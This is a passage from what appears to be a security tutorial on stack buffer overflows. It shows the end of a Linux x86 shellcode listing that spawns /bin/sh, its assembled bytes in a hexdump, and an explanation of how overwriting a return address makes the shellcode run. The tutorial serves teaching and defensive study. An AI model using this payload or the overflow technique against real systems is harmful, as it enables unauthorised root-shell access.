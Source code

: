         mov al, 11          ; execve is syscall #11
        lea ecx, [ebx+8]    ; Load the address that points to /bin/sh
        lea edx, [ebx+12]   ; Load the address where we put null
        int 0x80            ; Call the kernel to make the system call happen

      two:
        call one            ; Use a call to get back to the top to get this
                            ; address
    db '/bin/sh'

This code can be assembled with nasm, to produce the following machine code:

        ron@slayer:~$ nasm shellcode.asm
        ron@slayer:~$ hexdump -C shellcode
        00000000  31 c0 b0 46 31 db 31 c9  cd 80 eb 16 5b 31 c0 88  |1À°F1Û1ÉÍ.ë.[1À.|
        00000010  43 07 89 5b 08 89 43 0c  b0 0b 8d 4b 08 8d 53 0c  |C..[..C.°..K..S.|
        00000020  cd 80 e8 e5 ff ff ff 2f  62 69 6e 2f 73 68        |Í.èåÿÿÿ/bin/sh|

Note that there isn\'t a single \'00\' byte. This is intentional, because shellcode is often stored in a string, and \'00\', or \'\\0\', terminates strings.

When this machine code runs, it attempts to spawn /bin/sh as root. This shellcode can be changed to any assembly (provided there are no 00 bytes). A common modification is changing the exploit to open a network port and listen for connections, or to connect back to the attacker. That behaviour is, obviously, used in network-based attacks.

## Reminder: the Stack {#reminder_the_stack}

If you don\'t remember how the stack works, go back and re-read the section on the stack.

Remember that the stack for a function looks like this, from bottom to top:

-   \... used by calling function \...
-   parameters
-   return address
-   local variables
-   saved registers
-   \...unallocated\...

Remember also that arrays are simply a sequence of bytes stored somewhere. In the case of local variables, the array is stored on the stack.

Because an array operation is simply a memory access converted to assembly, a program doesn\'t actually know how long the array is. All it knows is what the programmer told it to do. If the programmer says it\'s ok to copy 100 bytes into an array, then the array is, presumably, at least 100 bytes long.

Sometimes, a program forgets to check how much data the program can copy, which allows an attacker to provide too much data. The program, not knowing any better, copies the data past the end of the array, over other local variables. If it goes far enough, the return address may be overwritten. If the attacker can control the return address, then the return address can be pointed at the shellcode. Then when the \"ret\" instruction is issued, and ret pops off the return address to jump to, it instead gets the address of the shellcode!

In other words, the return address is overwritten with the address of the shellcode, so when the function returns the shellcode runs.
